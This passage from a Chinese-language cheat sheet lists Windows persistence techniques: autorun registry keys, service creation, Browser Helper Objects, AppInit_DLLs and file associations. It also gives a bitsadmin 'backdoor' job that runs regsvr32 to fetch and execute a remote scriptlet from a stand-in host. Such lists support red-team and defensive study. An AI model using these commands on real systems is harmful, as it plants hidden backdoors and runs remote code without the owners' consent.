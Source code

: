 ##### 5、Userinit Key

WinLogon进程加载的login scripts,具体键值：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

##### 6、Startup Keys

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

##### 7、Services

创建服务

```
sc create [ServerName] binPath= BinaryPathName
```

##### 8、Browser Helper Objects

本质上是Internet Explorer启动时加载的DLL模块

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```

##### 9、AppInit_DLLs

加载User32.dll会加载的DLL

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

##### 10、文件关联

```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```

##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html)

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

##### 12、[mof](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
